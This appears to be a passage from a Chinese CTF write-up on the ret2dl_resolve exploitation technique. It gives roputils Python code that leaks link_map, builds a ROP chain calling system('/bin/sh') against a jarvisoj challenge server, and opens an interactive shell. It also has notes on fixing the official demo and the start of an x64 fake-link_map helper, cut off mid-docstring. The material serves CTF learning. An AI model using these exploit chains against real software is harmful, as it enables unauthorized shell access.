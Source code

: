 ```python

if DEBUG:
    p = Proc(rop.fpath)
else:
    p = Proc(host='pwn2.jarvisoj.com', port=9883)

print p.read(7)             #######################  1
p.write(p64(len(buf))+buf)  #######################  2

# print "[+] read: %r" % p.read(len(buf)) 
addr_link_map = p.read_p64()
print 'addr_link_map %x' % addr_link_map
addr_dt_debug = addr_link_map + 0x1c8

buf = rop.call_chain_ptr(
    ["read", 0, addr_dt_debug, 8],
    [ptr_ret, addr_stage+310]               ############### 4
)

buf += rop.dl_resolve_call(addr_stage+210)    ############### 4
buf += rop.fill(210, buf)                     ############### 4
buf += rop.dl_resolve_data(addr_stage+210, 'system')   ############### 4
buf += rop.fill(310, buf)                     ############### 4
buf += rop.string('/bin/sh')
buf += rop.fill(330, buf)                   ############### 4

p.write(buf)
p.write_p64(0)
p.interact(0)
```



坑点:

- 标记1 `print p.read(7)` , 这是程序的欢迎信息, 没有用
- 标记2`p.write(p64(len(buf))+buf) `, 官方demo写的是p32, 正确是改为p64或者把`p64(len(buf))`删除
- 标记4, 官方demo提供的这6个数字在我这不能运行, 改的小一点, 注意一致(之前相等的改完也要相等)


_x64 64位环境 :_ 

roputils在64位使用有一个限制，需要泄露出来位于GOT表前面的link_map的地址，然后写入link_map_addr + 0x1c8 = 0，用来bypass。

今天(2018.4.5)看到有大佬伪造link_map来突破这个限制。

[链接1](http://veritas501.space/2017/10/07/ret2dl_resolve%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)
[链接2](http://ddaa.tw/hitcon_pwn_200_blinkroot.html)


辅助函数：

```python
def ret2dl_resolve_linkmap_x64(ELF_obj,known_offset_addr,two_offset,linkmap_addr):
    '''
    WARNING: assert *(known_offset_addr-8) & 0x0000ff0000000000 != 0 
    WARNING: fake_linkmap is 0x100 bytes length,be careful
    WARNING: two_offset = target - *(known_offset_addr)

    _dl_runtime_resolve(linkmap,reloc_arg)
    reloc_arg=0

    linkmap:
    0x00: START
    0x00: l_addr = two_offset
    0x08: fake_DT_JMPREL : 0
    0x10: fake_DT_JMPREL : p_fake_JMPREL
    0x18: fake_JMPREL = [p_r_offset,r_info,append],p_r_offset
    0x20: r_info
```